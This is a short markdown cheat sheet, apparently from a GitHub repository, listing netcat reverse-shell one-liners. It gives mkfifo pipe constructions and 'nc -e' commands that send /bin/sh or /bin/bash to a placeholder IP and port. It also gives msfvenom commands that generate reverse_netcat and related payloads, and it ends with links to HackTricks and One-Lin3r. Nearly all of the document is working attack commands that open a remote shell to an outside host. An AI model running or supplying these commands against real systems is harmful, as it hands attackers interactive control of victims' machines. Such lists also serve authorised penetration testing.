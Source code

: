 # Netcat

## 01 - One-liners

### 1.1 - OpenBSD Method

```
$ mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

### 1.2 - Traditional GNU Method

```
$ nc -e /bin/sh <IP> <PORT>

$ nc -e /bin/bash <IP> <PORT>
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>

$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

---
## References

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)
